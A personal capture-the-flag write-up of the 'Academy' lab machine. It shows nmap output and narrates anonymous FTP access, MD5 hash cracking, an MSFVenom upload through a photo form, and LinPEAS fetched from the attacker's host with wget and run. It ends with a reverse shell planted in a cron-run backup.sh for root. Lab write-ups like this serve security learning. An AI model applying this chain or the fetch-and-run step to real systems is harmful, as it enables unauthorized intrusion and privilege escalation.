 # CTF-WRITEUPS
Sharing the steps of getting root access and getting the flags for the ctfs that I complete

Here's my Notion blog for my [CTF Writeups](https://e-ctf-writeups.notion.site/CTF-WRITEUPS-a6db871b6e204ceb8c51cc0413423580)

# TCM - Academy

June 3, 2023 

---

## Introduction

This [HackTheBox](https://app.hackthebox.com/machines/Academy) is an easy challenge based on HTB (but I did struggle with the privilege escalation).
The object is to acquire root access and receive the flag via any means possible (Ethically).

---

## Information Gathering

***Port Scanning***

- Beginning the reconnaissance by running `nmap -T4 -p- -A {IP}`
    
    ```bash
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 19:02 EDT
    Nmap scan report for academy (192.168.1.169)
    Host is up (0.00084s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:192.168.1.151
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
    |   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
    |_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-title: Apache2 Debian Default Page: It works
    |_http-server-header: Apache/2.4.38 (Debian)
    MAC Address: 00:0C:29:1C:54:B8 (VMware)
    Device type: general purpose
    Running: Linux 4.X|5.X
    OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
    OS details: Linux 4.15 - 5.6
    Network Distance: 1 hop
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.83 ms academy (192.168.1.169)
    
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 12.53 seconds
    ```
    
- Port 21, 22, and 80 are open

***Port 21***

- FTP - Anonymous login allowed
- Besides the anonymous login, there wasn't anything else I could find a vulnerability for. I checked to see if there was anything for `vsftpd 3.0.3`, for which I found this [Remote Denial of Service](https://www.exploit-db.com/exploits/49719), but that wouldn't really be helpful for rooting the machine.

***Port 22***

- For this port, I researched exploits for this specific version `OpenSSH 7.9p1`, for which only one website came up ([Rapid7](https://www.rapid7.com/db/modules/exploit/multi/ssh/sshexec/)) and I tried the steps shown but it didn't work.

***Port 80***

- This was a Debian website, just saying that the apache server was working. After further research using `dirbuster`, I found an admin login, student login and PHP server login. (*This was useful for what will be mentioned below*).

---

## Exploitation and Root access

***Port 21***

- First thing, I connected to FTP as anonymous since it was allowed. After the connection, there was a `.txt` file in there with some leaked information about student login (username and password).
- The password was in the form of a hash, but after running `hash-identifier` it came up to be an MD5 encryption. The cracking was fairly easy and quick with `hashcat`
- From here on, I went to the website and there was an option to upload a picture for the student. Knowing this, I set up a listener with `Metasploit` and created a `MSFVenom` (payload generator). As soon as I uploaded the payload, I got a session.
    
    ![Screenshot 2023-06-02 at 9.06.01 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.06.01_PM.png)
    
- After gaining this, I did not have root access immediately (actually took me a while to figure out what to do from here), but after some research, I figured out that I needed some privilege escalation for which I found this https://github.com/carlospolop/PEASS-ng which gave information on how to gain that escalation. I ran this, after opening my port 80 and running `wget HTTP://{IP}/linpeas`, changing the mode to executable and running it
    
    ![Screenshot 2023-06-02 at 9.06.14 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.06.14_PM.png)
    
- After running that script, there was some vulnerability that I discovered, which was a user (admin) and password.
    
    ![Screenshot 2023-06-02 at 9.21.15 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.21.15_PM.png)
    
    ![Screenshot 2023-06-02 at 9.26.13 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.26.13_PM.png)
    
    ![Screenshot 2023-06-02 at 9.27.17 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.27.17_PM.png)
    
- I connect to it through ssh. I did not have `sudo` access so I needed some privilege escalation for this as well.
- After seeing that there was a .sh file (inside had time instructions), I tried to see the `cron jobs` to see if it was scheduled, but I had no permission to run `crontab -l`, so I followed the same procedure like the one above (with the open port 80) and installed https://github.com/DominicBreuker/pspy which can be run even when you don't have access to `crontab -l`
- After this, it was clear that the `backup.sh` was getting updated, and I used `vim` to add bash reverse shell code from [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    
    ![Screenshot 2023-06-02 at 9.30.14 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.30.14_PM.png)
    
- After doing that, the `backup.sh` got updated and I got root access
    
    ![Screenshot 2023-06-02 at 9.44.39 PM.png](TCM%20-%20Academy%204567e157d2934ce384586ef839c814d3/Screenshot_2023-06-02_at_9.44.39_PM.png)
    

P.S: Even though this machine was labeled as easy, it didn't actually feel easy and I can say it took a little to long to get here, and A LOT OF RESEARCH LOL!
